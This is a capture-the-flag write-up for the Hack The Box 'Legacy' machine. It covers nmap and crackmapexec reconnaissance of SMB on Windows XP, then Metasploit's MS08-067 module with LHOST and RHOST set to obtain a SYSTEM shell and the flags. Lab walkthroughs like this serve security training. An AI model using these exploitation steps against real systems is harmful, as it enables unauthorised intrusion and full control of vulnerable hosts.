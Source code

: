 # Legacy      

![Legacy](./Screenshots/legacylogo.png)

## Solution

### Scan with nmap

Type:

```
nmap -sC -sV {target ip} -v
```

`-sC` - This flag tells Nmap to use the default set of scripts during the scan. These scripts are part of the Nmap Scripting Engine (NSE) and are used for tasks such as version detection, vulnerability detection, and more. Using -sC enhances the scan by providing additional information about the target.

`-sV` - Version detection. Nmap will try to determine the version of the services running on open ports. This is useful for identifying specific software and versions, which can help in assessing potential vulnerabilities.

`-v` - Enables verbose mode. Verbose mode provides more detailed output during the scanning process, allowing you to see more information about what Nmap is doing. This can be helpful for debugging and understanding the progress of the scan.

![nmap](./Screenshots/legacynmap.png)
![nmap](./Screenshots/legacynmap2.png)

Here are the descriptions of the open ports shown in the screenshots:

### **135/tcp (MSRPC)**
The Microsoft Windows RPC service is open, used for facilitating remote procedure calls on the system. This service often allows interaction between different processes on the same or remote machines.

### **139/tcp (NetBIOS-SSN)**
NetBIOS Session Service is active, used for network file sharing, printer sharing, and other Windows services within a network. This is typically used in conjunction with SMB for network file and printer sharing.

### **445/tcp (Microsoft-DS)**
**SMB (Server Message Block)** over TCP is open, commonly used for Windows file sharing. The service is running on **Windows XP**, and the scan indicates SMB signing is disabled, which can be a security vulnerability, allowing potential Man-in-the-Middle attacks.

### **Host Script Results**
- **SMB Security Mode**: The system is using the "guest" account for authentication, and message signing is disabled. This poses a security risk, as it may allow unauthorized access or modifications to network resources.
- **NetBIOS Information**: The NetBIOS name is "LEGACY," belonging to the "HTB" workgroup, indicating it's part of a network named HTB. The MAC address is identified as belonging to VMware, suggesting the machine may be virtualized.
- **SMB OS Discovery**: The operating system is identified as **Windows XP**, which is outdated and known for several vulnerabilities, potentially offering avenues for exploitation.

The combination of outdated services and unsecured configurations suggests that this machine could be vulnerable to various attacks.

### crackmapexec

I usually like exploring resources by myself using **smbclient** before using advanced tools, as it can sometimes reveal interesting informations. However, this time, it was a complete waste of energy.

I always like to start with:

```
crackmapexec smb {target ip}
```

when I'm testing **SMB** because it quickly gives me valuable information about the **OS version** and **SMB version**.

![crackmapexec](./Screenshots/legacycrackmapexec.png)

When I see `signing:False` and `SMBv1:True` I know right away that the server might be vulnerable to **EternalBlue**. However, our target is running on **Windows XP**, so **EternalBlue** can't be exploited in this case, as it targets **Windows 7 and later**.

If you want to know more about **EternalBlue (CVE-2017-0144)** check out my writeup to the [Blue](../Blue).

Since **SMBv1** is enabled and this is a **Windows XP** machine, it is potentially vulnerable to **MS08-067 (NetAPI Exploit)**. This vulnerability allows for remote code execution via the **NetServer** service.

Let's look for some exploits.

### SearchSploit

```
searchsploit ms08-067 
```

![SearchSploit](./Screenshots/legacysearchsploit.png)

There are several exploits for this vulnerability in the base, so let's move on to `Metasploit`.

### Metasploit

In order:

```
msfconsole
```

```
search ms08-067
```

![Metasploit](./Screenshots/legacymetasploit.png)

copy:

```
exploit/windows/smb/ms08_067_netapi
```

and type:

```
use exploit/windows/smb/ms08_067_netapi
```

then:

```
show options
```

![Metasploit](./Screenshots/legacymetasploit2.png)

We will have to set up `RHOST`(target ip) and `LHOST`(as we are connected to **HTB** through **VPN**).

```
set LHOST {your tun0 ip}
```

```
set RHOST {target ip}
```

when it's done, type:

```
run
```

and press `Enter`.

![Metasploit](./Screenshots/legacymetasploit3.png)
![Metasploit](./Screenshots/legacymetasploit4.png)

We have a shell.

As we used **`exploit/windows/smb/ms08_067_netapi`** exploit, we should have full control over the targeted machine.

![Metasploit](./Screenshots/legacymetasploit5.png)

We are **`nt authority\system`** - this is the most powerful account in Windows, even more privileged than the `Administrator` account. It has unrestricted access to all system resources, processes, files, and services.

### Get the user flag

The `user` flag is in the `C:\Documents and Settings\john\Desktop` path.

![flag](./Screenshots/legacyuserflag.png)

### Get the root flag

`Root` flag is in the `C:\Documents and Settings\Administrator\Desktop` path.

![flag](./Screenshots/legacyrootflag.png)

### Paste the flags

![pwned](./Screenshots/legacypwned.png)